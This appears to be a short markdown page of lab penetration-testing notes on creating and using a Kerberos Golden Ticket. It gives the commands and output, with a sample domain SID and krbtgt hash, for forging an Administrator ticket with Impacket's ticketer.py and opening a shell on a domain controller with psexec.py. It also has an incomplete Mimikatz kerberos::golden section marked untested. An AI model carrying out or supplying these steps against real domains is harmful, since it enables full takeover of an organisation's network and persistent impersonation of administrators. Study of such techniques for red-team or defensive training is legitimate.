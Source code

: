 # Create and Use a Golden Ticket

You will need:

* The FQDN of the domain: `fra.evilcorp.lab2`
* The SID of the domain: `S-1-5-21-2894840767-735700-3593130334`
* The NTLM hash of the `krbtgt` account: `25619bab39a137291b536a7bf42c6780`
* The `samAccountName` of the user to impersonate (preferably a domain admin): `Administrator`

## With Impacket from Linux

Create the ticket.
`ticketer.py -nthash 25619bab39a137291b536a7bf42c6780 -domain-sid S-1-5-21-2894840767-735700-3593130334 -domain fra.evilcorp.lab2 Administrator`

``` text
Impacket v0.9.19-dev - Copyright 2019 SecureAuth Corporation

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for fra.evilcorp.lab2/Administrator
[*]   PAC_LOGON_INFO
[*]   PAC_CLIENT_INFO_TYPE
[*]   EncTicketPart
[*]   EncAsRepPart
[*] Signing/Encrypting final ticket
[*]   PAC_SERVER_CHECKSUM
[*]   PAC_PRIVSVR_CHECKSUM
[*]   EncTicketPart
[*]   EncASRepPart
[*] Saving ticket in Administrator.ccache
```

That will create a file `Administrator.ccache` in the current directory.

Export a variable of the file:
`export KRB5CCNAME=/home/user/Administrator.ccache`

Use it:
`psexec.py -dc-ip 192.168.58.11 -target-ip 192.168.58.11 -no-pass -k fra.evilcorp.lab2/Administrator@192.168.58.11`

## With Mimikatz from Windows

NOT COMPLETED, must be tried again

Open Mimikatz and fire the commands:

* `/ptt` inject it in current session. See it with `kerberos::list`

```
kerberos::golden /domain:contoso.local /sid:S-1-5-21-3782747949-3751736470-937249271 /rc4:8846f7eaee8fb117ad06bdd830b7586c /user:adm-jdupond /id:500 /ptt

misc::cmd
```

**To be completed.**
